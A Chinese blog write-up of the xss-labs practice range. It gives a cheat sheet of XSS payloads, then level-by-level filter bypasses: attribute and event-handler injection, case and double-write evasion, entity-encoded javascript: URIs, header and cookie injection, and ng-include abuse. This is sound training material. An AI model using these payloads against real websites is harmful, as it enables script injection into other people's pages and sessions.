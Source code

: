 ```yaml
---
title: Xss-Labs通过文档
author: Kilm0r
description: "xss注入备忘录"
pubDate: 2025-06-06
tags: ["安全", "xss", "渗透"]
---
```


<h1 id="Exg7d">常用payload：</h1>
```javascript
<script>alert("xss")</script>
  
<body onload=alert()>
 
<img src=x onerror=alert()>
 
<svg onload=alert()>
 
<body onpageshow=alert(1)>
 
<div style="width:1000px;height:1000px" onmouseover=alert()></div>
 
<marquee width=10 loop=2 behavior="alternate" onbounce=alert()> (firefox only)
 
<marquee onstart=alert(1)> (firefox only)
 
<marquee loop=1 width=0 onfinish=alert(1)> (firefox only)
 
<input autofocus="" onfocus=alert(1)></input>
 
<details open ontoggle="alert()">  (chrome & opera only)
```

<h2 id="J5B4V">开局：</h2>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692622630-b9fc59c2-4b10-4248-bd55-a68eb7cc474c.png)

<h1 id="lG3OP">第一关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692656119-7bcc933c-e35c-4d8f-bdc4-8dc5fa2594ef.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692689466-128e6459-1693-4bd0-beb6-9217ff927d79.png)

<h1 id="Ee92T">第二关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692815087-1b428890-e8f2-41c0-9017-3b5941f9cfd6.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692860224-12c49aab-7b2b-471d-b191-be9f3690506d.png)

闭合前后尖括号使js代码生效

"><script>alert("s")</script><"

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692906568-bfe23aa0-af38-4f83-ae9f-634b7fe9272f.png)

<h1 id="dxW5y">第三关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692974430-04cef713-3ed9-40a6-8acf-abe3d95cdab1.png)

括号被实体化，尝试更改其他方式代替,<font style="color:rgb(77, 77, 77);">但是htmlspecialchars函数只针对<>（即大于小于号）进行html实体化，我们还可以利用其他方法进行xss注入</font>

```javascript
" onfocus=javascript:alert() "
```

<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);"> </font>

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693248102-2394a98b-8636-465e-8bcf-254e2aa16702.png)

<h1 id="BqiRB">第四关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693299936-d6b11e15-6684-4b6d-a897-11c566f55a5d.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693364651-8cc752d5-9093-4c5f-b121-f98957ed4f90.png)

括号被实体化，尝试用其他方法绕过，不使用括号

" onfocus=javascript:alert() "

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693415921-8392cd08-7c85-4a60-807f-5665ec32f3cf.png)

<h1 id="nk27O">第五关：</h1>
先用常规语句试探下

<script>alert("xss")</script>

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693476074-a0f7a5a9-8875-45e6-9e14-4d95c0890000.png)

<input name="keyword" value="&lt;scr_ipt&gt;alert(" xss")<="" script="">

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693580737-4db83ec6-df4d-4feb-b7c8-7060cc68bfa5.png)

源码处发现使用str_replace函数，<script>转换为<scr_ipt> on转换为o_n

使用a标签绕过script与on标签

```javascript
"/><a href=javascript:alert()>a-alert</a><"
```

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693680555-c201b65d-247c-4929-87aa-36c18713ed87.png)

<h1 id="BKN09">第六关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693701767-90ca1802-b407-4f97-8137-a30fbc7bf788.png)

使用常规语句：<script>alert("xss")</script>试探下

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693768598-286a7db1-df37-4055-9c2b-39d6a0322bb2.png)

源码处的得知script、on、src、data、href被过滤，a标签 script标签不能用

这里可以使用大小写绕过

"><Script>alert("AA")</SCRipt><"

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693893515-e0da28f5-6cfc-4bc2-b1b4-4c5e9f13daf6.png)

<h1 id="DkcjH">Level 7</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693918726-3603d45b-e6e9-4483-b789-afea2831d755.png)![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693955068-2886656b-0882-4bbf-93d7-6e104d5e9e5d.png)

源码处得知使用strtolower输入被小写，防止大写字母绕过，script、on、src、data、href被过滤

"><SCRscriptIPT>alert("aa")</Scrscriptipt><"

这里我们使用双写绕过，删掉中间标签的同时剩下的标签还能组成新的标签

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694198203-e8bf13ec-3350-460f-b2d4-b6276c9935c7.png)

<h1 id="BGo1C">level 8</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694247444-41d5a63e-8132-4e5c-a26e-61d780ed37b2.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694256090-19848ab8-b5ba-4245-bbaa-4a8857b0a984.png)

源码处得知过滤新增了“引号

这里绕过可以使用<font style="color:rgb(77, 77, 77);">href的隐藏属性自动Unicode解码，我们可以插入一段js伪协议</font>

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694319636-045e0fd8-d3df-4ab0-9782-1a303e7f3423.png)

```javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694338825-d8863254-eeb2-4f51-8daa-7264c0890927.png)

<h1 id="Cdj7L">level 9</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694355285-c912d8b4-933b-48fe-9a69-312bbf04f5a7.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694389180-8c84ceb1-24b9-4c73-b8fc-3733c885fe4b.png)

源码处得知不仅过滤了标签script、on、src、data、href、“双引号的同时还增加了判断，判断链接地址是否存在http://

<font style="color:rgb(77, 77, 77);">为了防止false===false，我们需要向传入的值里面添加http://，而且要用注释符注释掉，否则会执行不了、无法弹窗，让函数strpos返回一个数字，构造payload</font>

```javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;/* http:// */
```

<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);"> </font>![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694507907-f10ebe2f-52f2-4e25-a8cc-9d145165828b.png)

<h1 id="aDtkD">Level 10</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694520611-6dd4bd56-3de2-4a8d-b2df-1c81695e224d.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694557283-a9c1967b-54e2-41ea-963b-95ef4ba3df3a.png)

源码处得知过滤掉<> <font style="color:rgb(77, 77, 77);">所以我们用onfocus事件，因为这里输入框被隐藏了，需要添加type="text"，构造payload</font>

```javascript
?t_sort=" onfocus=javascript:alert() type="text
```

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694631079-3b2450d8-5344-4bd5-bbdb-729226ab3a06.png)

<h1 id="RTNrK">Level 11</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694654570-284853f8-78b2-4765-96c4-20db025ff4fc.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694679986-41944515-8575-43ee-8985-f532355029ce.png)

源码处得知，接收http头信息，同时过滤<>

在头部http_refere部分插入xss代码

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694841769-417a94fa-41c0-4d84-acf4-f7377dd51e60.png)

<h1 id="J7KcJ">Level 12</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694888845-b90d578a-b567-467e-894a-117bc512d7bf.png)

源码处得知接收http_user_agent浏览器信息，同时过滤<>

我们继续同上方法插入UA头信息测试

```javascript
" onfocus=javascript:alert() type="text
```

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695013999-b62c8694-a878-4c37-93c1-29d3c8f7eb75.png)

<h1 id="HRe86">Level 13</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695051874-f0a0eafa-1492-4e96-8cc0-b64368bbdcbf.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695066091-e217416b-4407-49e2-9a2a-31df46b92c9e.png)

源码处得知接收俩个参数keyword与t_sort同时过滤<>,使用$\_COOKIE["user"]，接收浏览器cookie信息
，同上继续使用onfocus函数，插入cookie位置

```javascript
" onfocus=javascript:alert() type="text
```

<h1 id="SHLf9">level 14</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695305217-f966b248-62e0-4332-9fde-d73347f68eba.png)

这关目前做不了，含义为跳转该网站，在该网站上传存在xss代码图片，跳转到该网站后弹窗，目前该网站已经关闭，本关略过

<h1 id="Y25Dr">Level 15</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695440534-a4146bd1-88fc-4ffc-a51a-b48c0650eed2.png)![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695480191-141e2026-52c8-486a-952e-52b3e55bee04.png)

输出使用ng-include函数包含，可以包含其他文件，这里包含第一个通关文件，之后在第一个文件弹窗

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695520322-72f73906-dde7-4428-9e52-16b98ece61ea.png)

```python
?src='level1.php?name=<img src=XXX onmouseover=alert()>'
```

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695587337-7f1c7f5c-6190-4e10-8441-7c07290c5aa5.png)

<h1 id="cUxQZ">Level 16</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695623584-86f575e2-4c87-4fa2-be1f-92c173072d09.png)

源码出得知，是替换script、“、/等符号，

<font style="color:rgb(77, 77, 77);">空格可以用回车来代替绕过，回车的url编码是%0a，再配合上不用/的<img>、<details>、<svg>等标签</font>

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695702619-ff7d7621-4354-46e5-80ac-c50273007946.png)![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695756054-19202322-fc4e-4e19-94f0-1e1c1a1bb210.png)
